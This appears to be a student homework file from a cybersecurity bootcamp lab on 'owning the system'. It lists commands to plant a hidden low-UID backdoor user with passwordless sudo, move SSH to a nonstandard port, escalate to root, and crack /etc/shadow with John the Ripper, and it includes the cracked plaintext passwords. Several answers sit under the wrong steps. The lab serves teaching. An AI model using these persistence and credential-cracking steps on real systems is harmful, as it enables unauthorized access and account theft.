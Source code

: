 ## Week 6 Homework Submission File: Advanced Bash - Owning the System

Please edit this file by adding the solution commands on the line below the prompt. 

Save and submit the completed file for your homework submission.

**Step 1: Shadow People** 

1. Create a secret user named `sysd`. Make sure this user doesn't have a home folder created:
    - `sudo useradd sysd`

2. Give your secret user a password: 
    - `sudo passwd sysd`

3. Give your secret user a system UID < 1000:
    - `sudo usermod -u 400 sysd`

4. Give your secret user the same GID:
   - `sudo groupmod -g 400 sysd`

5. Give your secret user full `sudo` access without the need for a password:
   -  `sudo visudo`

6. Test that `sudo` access works without your password:

    ```sysd    ALL=(ALL:ALL) NOPASSWD:ALL
    ```

**Step 2: Smooth Sailing**

1. Edit the `sshd_config` file:

    ```Port 2222
    ```

**Step 3: Testing Your Configuration Update**
1. Restart the SSH service:
    - `systemctl restart ssh`

2. Exit the `root` account:
    - `exit`

3. SSH to the target machine using your `sysd` account and port `2222`:
    - `ssh sysd@192.168.6.105 -p 2222`

4. Use `sudo` to switch to the root user:
    - `sudo su`

**Step 4: Crack All the Passwords**

1. SSH back to the system using your `sysd` account and port `2222`:

    - `john /etc/shadow`

2. Escalate your privileges to the `root` user. Use John to crack the entire `/etc/shadow` file:

    - `# john /etc/shadow
Created directory: /root/.john
Loaded 7 password hashes with 7 different salts (crypt, generic crypt(3) [?/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
computer         (stallman)
freedom          (babbage)
trustno1         (mitnik)
dragon           (lovelace)
lakers           (turing)
passw0rd         (sysadmin)
Goodluck!        (student)
sysd             (passw0rd)`

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.

